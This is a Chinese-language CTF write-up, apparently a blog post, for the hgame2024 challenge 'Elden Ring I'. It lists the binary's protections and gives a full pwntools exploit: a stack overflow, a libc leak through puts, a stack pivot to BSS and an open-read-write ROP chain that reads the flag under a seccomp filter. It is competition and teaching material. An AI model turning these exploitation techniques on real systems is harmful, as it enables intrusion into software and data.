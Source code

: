 ```yaml
---
title: hgame2024 week1 - Elden Ring I
date: 2024/2/6 18:23:00
updated: 2024/7/25 12:34:56
tags:
    - stack pivot
excerpt: 通过栈溢出和libc泄露，利用ORW在BSS区执行命令获取flag。
---
```


## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |no    |

## seccomp rules

<img src="/assets/hgame2024/hgame1seccomp.png" height="60%" width="60%">

## 解题思路

~~先看6秒落叶~~

进入`vuln`函数栈溢出，但是只有5*8字节，同时禁用了execve，只能打orw，
但是orw又需要大量的空间，因此可以先后泄露libc，栈迁移，在bss上打orw就会方便的多，
还可以方便放置"./flag"

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']

def payload(lo:int):
    global sh
    if lo:
        sh = process('./eldering')
        libc = ELF('/usr/lib/libc.so.6')
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('47.100.137.175', 32297)
        libc = ELF('./libc.so.6')
    elf = ELF('eldering')
    putsPlt = elf.plt['puts']
    putsGot = elf.got['puts']
    readPlt = elf.symbols['read']
    vulnAddr = elf.symbols['vuln']
    popRdiAddr = 0x4013e3
    bssHigh = 0x404800
    bssStore = 0x404a00
    gadgets = ROP(libc)

    # payload 1, leak libc addr
    sh.recvuntil(b'accord.\n\n')
    sh.sendline(b'0'*0x108 + p64(popRdiAddr) + p64(putsGot) + p64(putsPlt) + p64(vulnAddr))
    print('payload 1 sent')

    putsGotAddr = u64(sh.recvline()[:6] + b'\0\0')
    libcBase = putsGotAddr - libc.symbols['puts']
    openAddr = libcBase + libc.symbols['open']
    writeAddr = libcBase + libc.symbols['write']
    popRsiAddr = libcBase + gadgets.rsi.address
    popRdxAddr = libcBase + gadgets.rdx.address

    # payload 2, stack pivot to bss
    sh.recvuntil(b'accord.\n\n')
    leaveRet = 0x401290
    sh.sendline(b'0'*0x100 + p64(bssHigh) + p64(popRsiAddr) + p64(bssHigh) + p64(readPlt) + p64(leaveRet))
    print('payload 2 sent')
    sleep(0.5) # in case payload is concated

    # payload 3, do orw in bss
    sh.sendline(b'./flag\0\0' + p64(popRdiAddr) + p64(bssHigh) + p64(popRsiAddr) + p64(0) + p64(openAddr) +
                p64(popRdiAddr) + p64(3) + p64(popRsiAddr) + p64(bssStore) + p64(popRdxAddr) + p64(0x50) + p64(readPlt) +
                p64(popRdiAddr) + p64(bssStore) + p64(putsPlt))
    print('payload 3 sent')

    sh.interactive()
```
